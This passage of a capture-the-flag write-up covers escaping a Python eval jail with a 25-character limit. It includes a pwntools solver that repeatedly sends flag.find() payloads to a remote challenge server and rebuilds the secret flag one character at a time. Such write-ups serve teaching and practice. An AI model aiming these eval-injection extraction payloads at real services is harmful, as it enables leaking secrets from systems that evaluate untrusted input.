 bytes(flag,'utf-8')
expression = input(">> ")
if len(expression) > 25 or not expression.isascii() or not check(expression):
    print("nah")
    exit(-1)
try:
    result = eval(expression)
except:
    print("error")
    exit(-1)
if type(result) is int or type(result) is float:
    print(result)
else:
    print("not int or float")
    exit(-1)

# Get out of this python jail, pay attention to payload limit and blacklist!! Just focus on finding the payload without explaining 'why'!!
{{< /highlight >}}


I just go to Python builtins documentation and searching for functions that return an int or float:

- `hash()`: but it changes with every session so no.  
- `find(c, s=0)`: get the index of character `c`, in substring [`s`:]. This is what I used to solve this challenge.  
- `ord(flag[idx])`: this is much better but I figured this out after I solved it 💀  
  Okay, `find`, if there’s not a single char `c` in substring [`s`:], it’ll return -1, indicating us to stop. So do that for every printable character!

#### Solver

{{< highlight py >}}
import string
from pwn import *

context.log_level = "CRITICAL"

flag = [0 for i in range(921)]

for a in string.printable:
    start = 0
    sick = True
    # print("INDEXING", a)
    while sick:
        c = remote('108.137.70.166', 14000)
        s = f'flag.find("{a}",{start})'
        c.sendline(s.encode('utf-8'))
        idx = int(c.recvall()[3:-1])
        # print(f'{a} {idx}')
        if idx != -1:
            flag[idx] = a
            print(f'flag[{idx}]="{a}"',end=';')
            start = idx + 1
        else:
            sick = False
        c.close()

